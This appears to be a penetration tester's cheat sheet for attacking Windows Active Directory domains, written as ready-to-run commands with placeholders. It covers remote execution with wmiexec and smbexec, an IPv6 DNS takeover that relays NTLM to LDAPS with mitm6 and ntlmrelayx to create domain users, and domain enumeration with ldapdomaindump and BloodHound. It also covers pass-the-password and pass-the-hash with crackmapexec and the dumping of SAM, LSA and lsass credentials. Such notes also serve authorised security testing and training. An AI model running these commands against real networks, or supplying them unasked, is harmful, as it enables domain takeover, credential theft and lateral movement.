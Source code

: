 ####
Alternatives to psexec.py
1. wmiexec.py
2. smbexec.py

Which one works depends on target machine

## IPv6 DNS Takeover via mitm6
1. `ntlmrelayx.py -6 -t ldaps://<DC_IP_ADDRESS> -wh fakewpad.<DOMAIN> -l lootme`
2. `sudo python3 mitm6.py -d <DOMAIN>`
3. Check lootme/

### Note
1. Do not run this for longer than 5-10 minutes, can mess with the network or boot yourself off
2. If an admin logs in, a new user will be created on the domain

## Active Directory enumeration (post-compromise)

### Using ldapdomaindump

`sudo ldapdomaindump ldaps://<DC_IP_ADDRESS> -u '<DOMAIN>\<USERNAME>' -p <PASSWORD>`

### Using Bloodhound

1. `sudo neo4j console`
2. Login to neo4j
3. `sudo bloodhound`
4. Login to Bloodhound using neo4j creds
5. `sudo bloodhound-python -d <DOMAIN> -u <USER> -p <PASSWORD> -ns <DC_IP_ADDRESS> -c all`
6. Load the dumped files into Bloodhound

## Pass the password

1. `crackmapexec smb <IP/CIDR> -u <USER> -d <DOMAIN> -p <PASSWORD>`

## Pass the hash

1. `crackmapexec smb <IP/CIDR> -u <USER> -H <HASH> --local-auth`

### Dump SAM with pass the hash & crackmapexec

1. `crackmapexec smb <IP/CIDR> -u <USER> -H <HASH> --local-auth --sam`
2. This will dump all user's creds provided you authenticate to the machine with the passed hash

### Dump LSA with pass the hash & crackmapexec

1. `crackmapexec smb <IP/CIDR> -u <USER> -H <HASH> --local-auth --lsa`

### Dump lsass with lsassy

1. `crackmapexec smb <IP/CIDR> -u <USER> -H <HASH> --local-auth -M lsassy`
